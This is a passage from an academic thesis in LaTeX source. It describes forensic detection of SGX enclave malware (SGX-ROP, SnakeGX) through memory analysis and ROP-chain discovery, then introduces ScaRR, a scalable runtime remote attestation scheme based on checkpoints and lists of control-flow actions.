build ROP chains to attack the system.
The ROP chains are appended to the stack in the untrusted zone and they are
activated when the \emph{secure function} returns.
Once the payload ends, the ROP chains resume the normal host application
execution thus limiting possible side-effects.
In the available PoC, the malicious payload simulates a ransomware behavior by 
creating 
new file on the host machine.

\vspace{0.2cm}
\noindent \textbf{Analysis} --
To analyze this sample, we load the application, acquire the memory, and
execute our analysis with default configuration.
First, our plugin automatically listed an unexpected process containing an 
enclave.
Since the PoC is written on top of the standard Intel SGX SDK, our analysis
correctly inferred the development framework, the memory layout, and all the
interfaces.

At first inspection, the enclave does not seem able to write files to the
file system as it has only one \emph{outside function} that simply
invokes \texttt{printf()} for debug purposes.
This is interesting, as it is unusual for an enclave to have no \emph{outside 
function} for interacting with the OS.

This is all the information that can be retrieved from the enclave.
However, an enclave can transfer data into the host process memory space, and 
can use
this to manipulate the host process execution.
The easiest way to achieve this is through code-reuse attacks (\eg ROP-chains),
whose presence can be identified by using an existing Volatility 
plugin~\citep{ropfind}. 
In our memory image, the plugin indeed reports the presence of a ROP chain in 
the enclave
process, that contains calls to write files.
Moreover, stack analysis techniques~\citep{smulders2013user} showed a corrupted 
call stack in which a return address pointed to the ROP chain extracted.

This example shows how our SGX analysis plugins can be combined with other
existing memory forensics techniques to gain a more complete picture
of this advanced threat. 

\subsection{SnakeGX malware}
\label{ssec:snakegx}

In our final case study we analyze an infector that converts a benign enclave 
into a malware container~\citep{snakegx} (SnakeGX in 
Table~\ref{tbl:all_samples}).
SnakeGX does not add unexpected enclaves that may attract the 
analyst's attention, like in the case of SGX-ROP.
In fact, the PoC delivered with SnakeGX infects a specific enclave, 
called StealthDB~\citep{stealthdb}, which is an SGX plugin for 
PostgreSQL~\citep{postgresql}.
Internally, SnakeGX's payload uses a set of ROP chain in the untrusted memory, 
called \emph{outside-chains}, to interact with the OS and exfiltrate 
cryptographic keys on-demand.
The \emph{outside-chains} end with an \texttt{ENCLU} opcode and a TCS address 
to resume the enclave execution.
In our scenario, we assume the machine owner suspects an information leak due 
to an unusual outgoing network traffic, thus requiring an inspection.

\vspace{0.2cm}
\noindent \textbf{Analysis} --
Like in all previous experiments, we load the application, acquire the memory, 
and execute our analysis plugins with their default configuration.
Since SnakeGX infects StealthDB, our system only reports the presence of this 
enclave.
StealthDB works on top of the standard Intel SGX SDK, therefore, our
analysis correctly extracted the development framework, the memory layout, and
the interfaces.
From a first inspection, we noticed that the enclave interface matches 
StealthDB specifications, and
it contains $10$ trusted threads.
Moreover, our analysis did not spot new enclaves (active or zombies), thus 
ruling out the presence of unexpected enclaves in the host process.
Finally, the PostgreSQL was reported to work correctly, which is coherent 
because SnakeGX does not affect the infected enclave's behavior.

As in the previous case study, 
an attacker could have used a
code-reuse attack to manipulate 
the external process execution. 
To this end, when investigating possibly malicious enclaves, the analyst should 
always check for the presence of ROP chains. 
In this case, Volatility reports a chain in the \texttt{.bss} segment that,
at a closer analysis, contains gadgets to interact with 
the system, a TCS reference, and a gadget pointing to an \texttt{ENCLU} 
opcode. A manual analysis confirms that this is indeed the 
\emph{outside-chain} of SnakeGX.

\section{Discussion}
\label{sec:discussion}

In this section, we discuss the limitations of our techniques and indicate 
future works.

\vspace{0.2cm}
\noindent \textbf{Other Platforms} --
Our study focuses on Linux machines. This choice came from the observation 
that the majority of the development frameworks were designed for Linux.
However, our consideration can be easily extended on Windows environments.
In fact, the memory acquisition is independent from the operating system and
the 
Intel drivers use similar structures also its Windows counterpart.
Moreover, our tool also includes heuristic to detect enclaves in case of 
unknown drivers.
For what concerns the development frameworks, our consideration about the 
memory layout does not changes, while the interface identification would 
require 
small changes to be adapted to the Windows OS. This would mainly 
affect our static analysis part, to consider a different 
calling convention when matching specific structures (\eg \emph{ocall\_tables}) 
and target functions (\eg \texttt{sgx\_ecall}).

Similar consideration applies to 32bit systems.
In this case, we 
can easily adapt our interface analysis by considering typical 32bit calling 
conventions
and the fact that data structures (\eg 
\emph{ocall\_tables}) contain pointers of $4$ bytes.

\vspace{0.2cm} \noindent \textbf{Side Channels} -- In our work, we do not
consider enclaves that perform pure side-channel attacks against the
system~\citep{sgxsidechannel}. In this scenario, the enclave gathers private
information without using \emph{outside functions} or ROP-chain in the
untrusted zone, thus minimizing the traces left in the system. However,
even if an enclave uses side-channel attacks, it still has to rely on
either \emph{outside functions} or ROP-chains to actually exfiltrate the
information outside the system. Therefore, we can rely on forensic
techniques similar to the one described in sections~\ref{ssec:sgx-rop}
and~\ref{ssec:snakegx}. In addition, we can use orthogonal techniques (\ie
SGX-Bouncer~\cite{zhang2021see}) to detect enclave side-channel attacks at
runtime. However, we consider the use of these orthogonal approaches outside
the scope of our study.


\chapter{Scalable Runtime Remote Attestation for Complex Systems} % 
%Main chapter title
\label{chp:runtime-protection-untrusted} 

%After protecting the untrusted code in~\ref{chp:static-protection}, I will 
%focus on runtime attacks (code-reuse attacks) against the untrusted code.
%
%The answer to this question is addressed in this paper:
%\begin{itemize}
%	\item ScaRR: Scalable Runtime Remote Attestation for Complex Systems (RAID 
%	2019).
%\end{itemize}

%\section{Introduction}
%\label{sec:introduction}

%\todo{define what we mean for complex systems!!!}

%RA is a procedure that allows an entity (\ie the \emph{Verifier}) 
%to verify the status of a device (\ie the \emph{Prover}) from a remote 
%location. This is achieved by having first the \emph{Verifier} sending a 
%challenge to the \emph{Prover}, which replies with a report. 
%Then, the \emph{Verifier} analyzes the report to identify whether the 
%\emph{Prover} has been compromised~\cite{anati2013innovative}. 
%In standard RA, usually defined as static, the \emph{Prover} verification 
%involves the integrity of specific hardware and software properties (\eg the 
%\emph{Prover} has loaded the correct software).
%On the market, there are already several available products implementing 
%static 
%RA, such as Software Guard Extensions (SGX)~\cite{costan2016intel} or Trusted 
%Platform Module (TPM)~\cite{tomlinson2017introduction}.
%However, these do not provide a defence against runtime attacks (\eg the 
%control-flow ones)
%that aim to modify the program runtime behaviour. 
%Therefore, to identify \emph{Prover} runtime modifications, researchers 
%proposed runtime RA. Among the different solutions belonging to this category, 
%there are also the control-flow attestation approaches, which
%encode the information about the executed control-flow of a 
%process~\cite{abera2016c,aberadiat}.
%
%In comparison to static RA, the runtime one is relatively new, and today there 
%are no reliable products available on the market since researchers have mainly 
%investigated runtime RA for embedded 
%devices~\cite{abera2016c,zeitouni2017atrium,aberadiat,dessouky2017fat,Dessouky:2018:LLH:3240765.3240821}:
%most of them encode the complete execution path of a \emph{Prover} in a single 
%hash~\cite{abera2016c,zeitouni2017atrium,dessouky2017fat}; 
%some~\cite{aberadiat} compress it in a simpler representation and rely on a 
%policy-based verification schema; 
%other ones~\cite{Dessouky:2018:LLH:3240765.3240821} adopt symbolic execution 
%to 
%verify the control-flow information continuously sent by the \emph{Prover}. 
%Even if they have different performances, none of the previous solutions can 
%be 
%applied to a complex system (\eg virtual machines in a cloud) due to the 
%following reasons: 
%\begin{enumerate*}[label=(\roman*)]
%	\item representing all the valid execution paths through hash values is 
%	unfeasible (\eg the number of execution paths tends to grow exponentially 
%	with the size of the program),
%	\item the policy-based approaches might not cover all the possible attacks,
%	\item symbolic execution slows down the verification phase.
%\end{enumerate*}

In this chapter, we propose ScaRR, the first runtime RA schema for complex 
systems.
In particular, we focus on environments such as Amazon Web Services (\cite{aws})
or Microsoft Azure (\cite{azure_1}). 
Since we target such systems, we require support for features such as 
multi-threading.
Thus, ScaRR provides the following achievements with respect to the current 
solutions supporting runtime RA: 
\begin{enumerate*}[label=(\roman*)]
	\item it makes the runtime RA feasible for any software,
	\item it enables the \emph{Verifier} to verify intermediate states of the 
	\emph{Prover} without interrupting its execution,
	\item it supports a more fine-grained analysis of the execution path where 
	the attack has been performed. 
\end{enumerate*}
We achieve these goals thanks to a novel model for representing the execution 
paths of a program, which is based on the fragmentation of the whole path into 
meaningful sub-paths. As a consequence, the \emph{Prover} can send a series of 
intermediate partial reports, which are immediately validated by the 
\emph{Verifier} thanks to the lightweight verification procedures performed.  

ScaRR is designed to defend a \emph{Prover}, equipped with a trusted anchor and 
with a set of the standard solutions (\eg 
W$\oplus$X/DEP~\cite{pinzari2003introduction},
Address Space Layout Randomization - ASLR~\cite{kil2006address}, and Stack 
Canaries~\cite{baratloo2000transparent}), from attacks performed in the 
user-space and aimed at modifying the \emph{Prover} runtime behaviour. The 
current implementation of ScaRR requires the program source code to be properly 
instrumented through a compiler based on LLVM~\cite{lattner2004llvm}. However, 
it is possible to use lifting techniques~\cite{mcsema}, as well. 
Once deployed, ScaRR allows to verify on average $2M$ control-flow events per 
second, which is significantly more than the few hundred 
per second~\cite{Dessouky:2018:LLH:3240765.3240821} or the thousands per 
second~\cite{aberadiat} verifiable through the existing solutions.

\textbf{Contribution.} The contributions of this work are the following ones: 
\begin{itemize}
	\item We designed a new model for representing the execution path for 
	applications of any complexity.% together with a fine-grained detection of 
	%runtime errors location in the program;
	%\item We describe and analyze a runtime RA schema suitable for complex 
	%systems in cloud environments.
	\item We designed and developed ScaRR, the first schema that supports 
	runtime RA for complex systems.
	\item We evaluated the ScaRR performances in terms of: 
	\begin{enumerate*}[label=(\roman*)]
		\item attestation speed (\ie the time required by the \emph{Prover} to 
		generate a partial report),
		\item verification speed (\ie the time required by the \emph{Verifier} 
		to evaluate a partial report),
		\item overall generated network traffic (\ie the network traffic 
		generated during the communication between \emph{Prover} and 
		\emph{Verifier}).
	\end{enumerate*}
\end{itemize}

\section{Threat Model and Requirements}
\label{sec:threat-model}

In this section, we describe the features of the \emph{Attacker} and the 
\emph{Prover} involved in our threat model. Our assumptions are in line with 
other RA 
schemes~\cite{costan2016intel,winter2008trusted,abera2016c,aberadiat,Dessouky:2018:LLH:3240765.3240821}.

\paragraph{Attacker.}
We assume to have an attacker that aims to control a remote service, such as a 
Web Server or a Database Management System (DBMS), and that has already 
bypassed the default protections, such as Control Flow Integrity (CFI). To 
achieve his aim, the attacker can adopt different techniques, among which: 
Return-Oriented Programming (ROP)/ Jump-Oriented Programming (JOP) 
attacks~\cite{carlini2014rop,bletsch2011jump}, function hooks~\cite{7778160}, 
injection of a malware into the victim process, installation of a data-only 
malware in user-space~\cite{vogl2014persistent}, or manipulation of other 
user-space processes, such as security monitors. 
In our threat model, we do not consider physical attacks (our complex systems
are supposed to be virtual machines), pure data-oriented attacks (\eg attacks
that do not alter the original program CFG), self-modifying code, and dynamic 
loading of code at runtime (\eg just-in-time 
compilers~\cite{suganuma2000overview}).
We refer to Section~\ref{ssec:security+privacy+consideration} for a 
comprehensive
attacker analysis.

\paragraph{Prover.}
The \emph{Prover} is assumed to be equipped with:
\begin{enumerate*}[label=(\roman*)]
	%	\item a trusted anchor,
	\item a trusted anchor that guarantees a static RA,
	\item standard defence mitigation techniques, such as W$\oplus$X/DEP, ASLR.
\end{enumerate*}
In our implementation, we use the kernel as a trusted anchor, which is a 
reasonable assumption if the machines have trusted modules such as a 
TPM~\cite{tomlinson2017introduction}. 
However, we can also use a dedicated hardware, as discussed in 
Section~\ref{sec:discussion_scarr}. The \emph{Prover} maintains sensitive 
information 
(\ie shared keys and cryptographic functions) in the trusted anchor and uses it 
to generate fresh reports, that cannot be tampered by the attacker. 

\section{Model}
\label{sec:model}

ScaRR is the first schema that allows to apply runtime RA on complex systems. 
To achieve this goal, it relies on a new model for representing the 
CFG/execution path of a program. In this section, we illustrate first the main 
components of our control-flow model (Section~\ref{ssec:basic_concepts}) and, 
then, the challenges we faced during its design (Section~\ref{ssec:challenges}).

\subsection{Basic Concepts}
\label{ssec:basic_concepts}

The ScaRR control-flow model handles BBLs at assembly level and involves two 
components: \emph{checkpoints} and \emph{List of Actions (LoA)}.


A \emph{checkpoint} is a special BBL used as a delimiter for identifying the 
start or the end of a sub-path within the CGF/execution path of a program. A 
\emph{checkpoint} can be: \emph{thread beginning/end}, if it identifies the 
beginning/end of a thread; \emph{exit-point}, if it represents an exit-point 
from an application module (\eg a system call or a library function 
invocation); \emph{virtual-checkpoint}, if it is used for managing special 
cases such as \emph{loops} and \emph{recursions}. 

A \emph{LoA} is the series of significant edges that a process traverses to 
move from a \emph{checkpoint} to the next one. Each edge is represented through 
its source and destination BBL and, comprehensively, a \emph{LoA} is defined 
through the following notation:
$$
[(\text{BBL}_{s1},\text{BBL}_{d1}), \dots, (\text{BBL}_{sn},\text{BBL}_{dn})].
$$
Among all the edges involved in the complete representation of a CFG, we 
consider only a subset of them.
In particular, we look only at those edges that identify a unique execution 
path: procedure call, procedure return and branch (\ie conditional and indirect 
jumps). 

To better illustrate the ScaRR control-flow model, we now recall the example 
introduced in Section~\ref{sec:background}. 
Among the six nodes belonging to the CFG of the example, only the following 
four ones are \emph{checkpoints}: $N_1$, since it is a \emph{thread beginning}; 
$N_3$ and $N_4$, because they are \emph{exit-points}, and $N_6$, since it is a 
\emph{thread end}. In addition, the \emph{LoAs} associated to the example are 
the following ones:  
\begin{equation*}
\begin{split}
N_1-N_3 &\Rightarrow [(N_2, N_3)] \\    
N_1-N_4 &\Rightarrow [(N_2, N_4)] \\ 
N_3-N_6 &\Rightarrow [] \\
N_4-N_6 &\Rightarrow [].
\end{split}
\end{equation*}
On the left we indicate a pair of \emph{checkpoints} (\eg $N_1-N_3$), while on 
the right the associated \emph{LoA} (empty \emph{LoAs} are considered valid).

\subsection{Challenges}
\label{ssec:challenges}
\emph{Loops}, \emph{recursions}, \emph{signals}, and \emph{exceptions} involved 
in the execution of a program introduce new challenges in the representation of 
a CFG since they can generate uncountable executions paths. For example, 
\emph{loops} and \emph{recursions} can generate an indefinite number of 
possible combinations of \emph{LoA}, while \emph{signals}, as well as 
\emph{exceptions}, can introduce an unpredictable execution path at any time.

\textbf{Loops.}
In Figure~\ref{fig:challenge-III}, we illustrate the approach used to handle 
\emph{loops}.
\begin{figure}[t]
	\centering
	\begin{subfigure}[t]{0.4\textwidth}
		\centering
		
\includegraphics[width=0.8\textwidth]{fig_c4/challenge-III.pdf}
		\caption{Loop example in the ScaRR control-flow model.}
		\label{fig:challenge-III}
	\end{subfigure}
	\hfill
	\begin{subfigure}[t]{0.5\textwidth}
		\centering
		
\includegraphics[width=\textwidth]{fig_c4/challenge-IV.pdf}
		\caption{Recursion example in the ScaRR control-flow model.}
		\label{fig:challenge-IV}
	\end{subfigure}
	\label{fig:challenges}
	\caption{ScaRR model challenges.}
\end{figure}
Since it is not always possible to count the number of iterations of a loop, we 
consider the conditional node of the \emph{loop} (\texttt{$N_1$}) as a 
\emph{virtual-checkpoint}. 
Thus, the \emph{LoAs} associated to the example shown in 
Figure~\ref{fig:challenge-III} are as follows: 
\begin{equation*}
\begin{split}
S_A-N_1 &\Rightarrow [] \\    
N_1-N_1 &\Rightarrow [(N_1, N_2)] \\ 
N_1-S_B &\Rightarrow [(N_1, N_3)].
\end{split}
\end{equation*}

\textbf{Recursions.}
In Figure~\ref{fig:challenge-IV}, we illustrate our approach to handle 
\emph{recursions},
\ie a function that invokes itself. 
%
Intuitively, the \emph{LoAs} connecting \texttt{$P_B$} and \texttt{$P_E$} 
should contain all the possible invocations made by \texttt{a()} towards 
itself, but the number of invocations is indefinite. Thus, we consider the node 
performing the recursion as a \emph{virtual-checkpoint} and model only the path 
that could be chosen, without referring to the number of times it is really 
undertaken. The resulting \emph{LoAs} for the example in 
Figuree~\ref{fig:challenge-IV} are the following ones: 
\begin{equation*}
\begin{split}
P_B-N_2 &\Rightarrow [(P_B, N_1),(N_1,N_2)] \\    
N_2-N_2 &\Rightarrow [(N_2, N_1),(N_1,N_2)] \\ 
N_2-N_2 &\Rightarrow [(N_2, N_1),(N_1, N_3),(N_3, N_2)] \\
N_2-P_E &\Rightarrow [(N_2, N_1),(N_1, N_3),(N_3, P_E)] \\
P_B-P_E &\Rightarrow [(P_B, N_1),(N_1, N_3),(N_3, P_E)].
\end{split}
\end{equation*}

Finally, the \emph{virtual-checkpoint} can be used as a general approach to 
solve every situation in which an indirect jump targets a node already present 
in the \emph{LoA}.

\textbf{Signals.}
When a thread receives a \emph{signal}, its execution is stopped and, after a 
context-switch, it is diverted to a dedicated handler (\eg a function).
This scenario makes the control-flow unpredictable, since an interruption can 
occur at any point during the execution. To manage this case, ScaRR models the 
signal handler as a separate thread (adding \emph{beginning/end thread 
checkpoints})
and computes the relative \emph{LoAs}. If no handler is available for the 
\emph{signal} that interrupted the program, the entire process ends 
immediately, producing a wrong \emph{LoA}. 

\textbf{Exception Handler.}
Similar to \emph{signals}, when a thread rises an \emph{exception}, the 
execution path is stopped
and control is transferred to a catch block. 
Since ScaRR has been implemented for Linux,
we model the catch blocks as a separate thread (adding \emph{beginning/end 
thread checkpoints}),
but it is also possible to adapt ScaRR to fulfill different exception handling 
mechanisms (\eg in Windows).
In case no catch block is suitable for the \emph{exception} that was thrown, 
the process gets interrupted and the generated \emph{LoA} is wrong.


%\section{System Overview}
\section{Design}
\label{sec:proposal}

To apply runtime RA on a complex system, there are two fundamental 
requirements: 
\begin{enumerate*}[label=(\roman*)]
	\item handling the representation of a complex CFG or execution path,
	\item having a fast verification process.
\end{enumerate*}
Previous works have tried to achieve the first requirement through different 
approaches. A first 
solution~\cite{abera2016c,zeitouni2017atrium,dessouky2017fat} is based on the 
association of all the valid execution paths of the \emph{Prover} with a single 
hash value. 
Intuitively, this is not a scalable approach because it does not allow to 
handle complex CFG/execution paths. 
On the contrary, a second approach~\cite{Dessouky:2018:LLH:3240765.3240821} 
relies on the transmission of all the control-flow events to the 
\emph{Verifier}, 
which then applies a symbolic execution to validate their correctness. While 
addressing the first requirement, this solution suffers from a slow 
verification phase, which leads toward a failure in satisfying the second 
requirement. 

Thanks to its novel control-flow model, ScaRR enables runtime RA for complex 
systems, since its design specifically considers the above-mentioned 
requirements with the purpose of addressing both of them. In this section, we 
provide an overview of the ScaRR schema (Section~\ref{ssec:scarr_overview}) 
together with the details of its workflow (Section~\ref{ssec:scarr_details}), 
explicitly motivating how we address both the requirements needed to apply 
runtime RA on complex systems. 

\subsection{Overview}
\label{ssec:scarr_overview}
Even if the ScaRR control-flow model is composed of \emph{checkpoints} and 
\emph{LoAs}, the ScaRR schema relies on a different type of elements, which are 
the \emph{measurements}. Those are a combination of \emph{checkpoints} and 
\emph{LoAs} and contain the necessary information to perform runtime RA. 
Figure~\ref{fig:overview} shows an overview of ScaRR, which encompasses the 
following four components: a \emph{Measurements Generator}, for identifying all 
the program valid \emph{measurements}; 
a \emph{Measurements DB}, for saving all the program valid \emph{measurements};
a \emph{Prover}, which is the machine running the monitored program;
a \emph{Verifier}, which is the machine performing the program runtime 
verification. 

\begin{figure*}[h]
	\centering
	
\includegraphics[width=0.8\textwidth]{fig_c4/overview.pdf}
	\caption{ScaRR system overview.}
	\label{fig:overview}
\end{figure*}

As a whole, the workflow of ScaRR involves two separate phases: an 
\emph{Offline Program Analysis} and an \emph{Online Program Verification}. 
During the first phase, the \emph{Measurements Generator} calculates the CFG of 
the monitored \emph{Application A} (Step 1 in Figure~\ref{fig:overview}) and, 
after generating all the \emph{Application A} valid \emph{measurements}, it 
saves them in the \emph{Measurements DB} (Step 2 in Figure~\ref{fig:overview}).
During the second phase, the \emph{Verifier} sends a challenge to the 
\emph{Prover} (Step 3 in Figure~\ref{fig:overview}).
Thus, the \emph{Prover} starts executing the  \emph{Application A} and sending 
partial reports to the \emph{Verifier} (Step 4 in Figure~\ref{fig:overview}). 
The \emph{Verifier} validates the freshness and correctness of the partial 
reports by comparing the received new \emph{measurements} with the previous 
ones stored in the \emph{Measurements DB}. Finally, as soon as the 
\emph{Prover} finishes the processing of the input received from the 
\emph{Verifier}, it sends back the associated output. 

%\todo{FT: rephrase this part in a smart way!}
%As a clarification, in this work the term measurement refers to the analysis 
%of a CFG, performed to obtain all the information needed to check an 
%application during runtime.

%which is one of the main differences between ScaRR and previous 
%works~\cite{abera2016c,aberadiat}.
%The idea behind this approach is that, in complex processes, the execution 
%flow can get extremely long
%check first verify their validity and, then, compares them with the ones 
%stored in the \emph{Measurements DB}.
%As we will discuss in Section~\ref{ssec:security+privacy+consideration}, 

\subsection{Details}
\label{ssec:scarr_details}

As shown in Figure~\ref{fig:overview}, the workflow of ScaRR goes through five 
different steps.
Here, we provide details for each of those.

%\subsection{Application CFG (Step 1)} 
\textbf{(1) Application CFG.} 
The \emph{Measurements Generator} executes the \emph{Application A()}, or a 
subset of it (\eg a function), and extracts the associated CFG $G$. 

%\subsection{Offline Measurements (Step 2)}  
\textbf{(2) Offline Measurements.} 
After generating the CFG, the \emph{Measurements Generator} computes all the 
program \emph{offline measurements} during the \emph{Offline Program Analysis}. 
Each \emph{offline measurement} is represented as a key-value pair as follows: 
$$
(\text{cp}_A,\text{cp}_B,H(\text{LoA})) \Rightarrow 
[(\text{BBL}_{s1},\text{BBL}_{d1}), \dots, (\text{BBL}_{sn},\text{BBL}_{dn})]
$$

The key refers to a triplet, which contains two \emph{checkpoints} (\ie $cp_A$ 
and $cp_B$) and the hash of the \emph{LoA} (\ie \emph{H(LoA)}) associated to 
the significant BBLs that are traversed when moving from the source 
\emph{checkpoint} to the destination one. The value refers only to a subset of 
the BBLs pairs used to generate the hash of the \emph{LoAs} and, in particular, 
only to procedure calls and procedure returns. Those are the control-flow 
events required to mount the shadow stack during the verification phase.

%The \emph{Verifer} uses this information to validate the reports sent by the 
%\emph{Prover}.
%We build the offline measurements by using the execution path model described 
%in Section~\ref{sec:model}.

%\subsection{Request for a Challenge (Step 3)}  
\textbf{(3) Request for a Challenge.}  
The \emph{Verifier} starts a challenge with the \emph{Prover} by sending it an 
input and a nonce, which prevents replay attacks. 
%Moreover, \emph{Prover} and \emph{Verifier} rely of a reliable channel (\eg 
%TCP). - FT: this is not the right place for this sentence!!
%The communication protocol between the \emph{Prover} and the \emph{Verifier} 
%must provide:
%\begin{enumerate*}[label=(\roman*)]
%	\item integrity and authentication, and
%	\item resistance against replay attacks.
%\end{enumerate*}


%\subsection{Online Measurements (Step 4)}  
\textbf{(4) Online Measurements.}
While the \emph{Application A} processes the input received from the 
\emph{Verifier}, the \emph{Prover} starts generating the \emph{online 
measurements} which keep trace of the \emph{Application A} executed paths. Each 
\emph{online measurement} is represented through the same notation used for the 
keys in the \emph{offline measurements}, \ie the triplet  
$(\text{cp}_A,\text{cp}_B,H(\text{LoA}))$.

%This way, by comparing the \emph{online measurements} with the offline ones 
%stored in the \emph{Measurements DB}, it is possible to easily identify 
%unforeseen edges introduced by an attacker. 
When the number of \emph{online measurements} reaches a preconfigured limit, 
the \emph{Prover} encloses all of them in a partial report and sends it to the 
\emph{Verifier}. The partial report is defined as follows: 
\begin{equation*}
\begin{split}
P_i &= (R,F_K(R||N||i))\\
R &= (T, M).
\end{split}
\end{equation*}
In the current notation, $P_i$ is the i-th partial report, $R$ the payload and 
$F_K(R||N||i)$ the digital fingerprint (\eg a message authentication 
code~\cite{bellare2000security}).
This is generated by using:
\begin{enumerate*}[label=(\roman*)]
	\item the secret key $K$, shared between \emph{Prover} and \emph{Verifier},
	\item the nonce $N$, sent at the beginning of the protocol, and
	\item the index $i$, which is a counter of the number of partial reports.
\end{enumerate*}
Finally, the payload $R$ contains the \emph{online measurements} $M$ along with 
the associated thread $T$.

The novel communication paradigm between \emph{Prover} and \emph{Verifier}, 
based on the transmission and consequent verification of several partial 
reports, satisfies the first requirement for applying runtime RA on complex 
systems (\ie handling the representation of a complex CFG/execution path). This 
is achieved thanks to the ScaRR control-flow model, which allows to fragment 
the whole CFG/execution path into sub-paths. Consequently, the \emph{Prover} 
can send intermediate reports even before the \emph{Application A} finishes to 
process the received input. In addition, the fragmentation of the whole 
execution path into sub-paths allows to have a more fine-grained analysis of 
the program runtime behaviour since it is possible to identify the specific 
edge on which the attack has been performed. 

%which is one of the main differences between ScaRR and previous 
%works~\cite{abera2016c,aberadiat}.
%The idea behind this approach is that, in complex processes, the execution 
%flow can get extremely long

%check first verify their validity and, then, compares them with the ones 
%stored in the \emph{Measurements DB}.
